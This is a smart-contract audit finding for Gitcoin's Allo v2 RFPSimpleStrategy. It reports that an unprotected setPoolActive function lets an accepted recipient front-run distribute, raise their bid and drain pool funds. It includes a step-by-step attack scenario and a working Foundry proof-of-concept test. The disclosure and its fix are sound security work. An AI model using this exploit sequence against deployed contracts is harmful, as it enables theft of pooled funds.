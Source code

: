 Clumsy Pecan Jay

high

# RFP Recipient can steal funds by toggling the pool activity state

The `setPoolActive` should be callable by the pool manager however it is missing an `onlyPoolManager` modifier.
This allows a malicious recipient to perform a set of steps to steal funds.

## Vulnerability Detail

`setPoolActive` is unprotected:
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L219
```solidity
    function setPoolActive(bool _flag) external {
        _setPoolActive(_flag);
        emit PoolActive(_flag);
    }
```

The pool activity state determains what functions are callable by the modifiers `onlyInactivePool` and `onlyActivePool`.

For example - only in an active pool recipients can register and re-register. This is to prevent any changes after an allocation and change the state of the phase of the contract.

```solidity
    function _registerRecipient(bytes memory _data, address _sender)
        internal
        override
        onlyActivePool
```

Since anyone can change the activity state of the pool, an accepted recipient can front-run the `distribute` function - change the state, re-register with a higher bid and change again the activity state to false. 
This will steal unintended funds from the pool.

Consider the following scenario:
1. Manager creates an RFP pool with `100 ETH`.
2. Manager sets `two` milestones with `70%` payment for first milestone and `30%` for second.
3. Multiple recipients apply but `Alice` applies with a cheap `proposalBid` of only `20 ETH`.
4. Since `Alice` proposal is cheap, the manager calls `allocate` to chose `Alice`.
6. `Alice` completes the first milestone and submits it and the manager accepts the submission.
7. The manager calls `distribute` to move to the next milestone and pay `Alice` rewards for the first milestone
8. `Alice` front-runs the call to `distribute` and sets the pool state to true. re-registers updating her `proposalBid` to `100 ETH`.  Sets the pool state to false.
9.  `distribute` is executed and `70 ETH` is sent instead of `14 ETH`.

## Impact

Theft of more then intended and potentially all pool funds.

## Code Snippet

Add the following test to `RFPSimpleStrategy.t.sol`
```solidity
    function test_stealPoolFundsDistribute() external {
        uint256 poolTotalBeforeFee = 100 ether;
        uint256 percentFee =  (poolTotalBeforeFee * 1e16) / 1e18;
        uint256 poolTotal = poolTotalBeforeFee - percentFee;

        // Fund pool with ~100 ether
        vm.deal(pool_admin(), 100 ether);
        vm.prank(pool_admin());
        allo().fundPool{value: poolTotalBeforeFee}(poolId, poolTotalBeforeFee);

        // Increase max bid to ~100 ether
        vm.prank(pool_admin());
        strategy.increaseMaxBid(poolTotal);

        // Register
        address sender = recipient();
        uint256 recipientFakeProposalBid = 20 ether;
        Metadata memory metadata = Metadata({protocol: 1, pointer: "metadata"});
        bytes memory data = abi.encode(recipientAddress(), false, recipientFakeProposalBid, metadata);
        vm.prank(address(allo()));
        address recipientIdReceived = strategy.registerRecipient(data, sender);

        // Set Milestones
        __setMilestones();

        // Allocate
        vm.prank(address(allo()));
        strategy.allocate(abi.encode(recipientIdReceived), address(pool_admin()));

        // Submit milestone
        vm.prank(recipient());
        strategy.submitUpcomingMilestone(Metadata({protocol: 1, pointer: "metadata"}));

        // Front-run distribute, activate pool, register, deactive pool
        vm.prank(recipient());
        strategy.setPoolActive(true);

        data = abi.encode(recipientAddress(), false, poolTotal, metadata);
        vm.prank(address(allo()));
        recipientIdReceived = strategy.registerRecipient(data, sender);
        
        vm.prank(recipient());
        strategy.setPoolActive(false);

        // Distribute
        vm.prank(address(allo()));
        strategy.distribute(new address[](0), "", pool_admin());

        // Alice should receive 70% of the poolTotal (~70 eth)
        assertEq(recipientAddress().balance, (poolTotal * 7e17) / 1e18);
    }
```

To execute the test run the command:
```solidity
forge test --match-test "test_stealPoolFundsDistribute" -v
```

Expected output:
```solidity
Running 1 test for test/foundry/strategies/RFPSimpleStrategy.t.sol:RFPSimpleStrategyTest
[PASS] test_stealPoolFundsDistribute() (gas: 618183)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 10.41ms
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
## Tool used

Manual Review

## Recommendation

Add a `onlyPoolManager(msg.sender)` modifier to `setPoolActive`